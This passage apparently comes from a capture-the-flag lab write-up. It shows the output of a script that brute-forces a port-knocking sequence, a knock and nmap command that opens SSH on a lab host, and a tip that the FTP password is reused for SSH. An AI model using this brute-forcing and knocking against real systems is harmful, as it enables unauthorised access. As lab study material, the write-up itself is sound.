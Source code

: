 Let's brute force it!

```bash
$ ./port-knocking-enumeration.sh 
8748 6786 9893 3443
8748 6786 9893 6786
8748 6786 9893 9893
8748 6786 9893 8748
8748 6786 8748 3443
8748 6786 8748 6786
8748 6786 8748 9893
8748 6786 8748 8748
8748 6786 3443 3443
8748 6786 3443 6786
8748 6786 3443 9893
8748 6786 3443 8748
8748 6786 6786 3443
8748 6786 6786 6786
8748 6786 6786 9893
8748 6786 6786 8748
8748 9893 9893 3443
8748 9893 9893 6786
8748 9893 9893 9893
8748 9893 9893 8748
8748 9893 8748 3443
8748 9893 8748 6786
8748 9893 8748 9893
8748 9893 8748 8748
8748 9893 3443 3443
8748 9893 3443 6786
8748 9893 3443 9893
8748 9893 3443 8748
8748 9893 6786 3443
22/tcp open  ssh
[SUCCESS!!] 8748 9893 6786 3443
```

Now we have the right order! We can verify it..

```bash
$ knock 10.10.213.66 8748 9893 6786 3443 && nmap -sV -p22 10.10.213.66
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-10 19:55 CET
Nmap scan report for 10.10.213.66
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.12 seconds
```

aand connect to ssh. Password is same as on FTP of course ;)
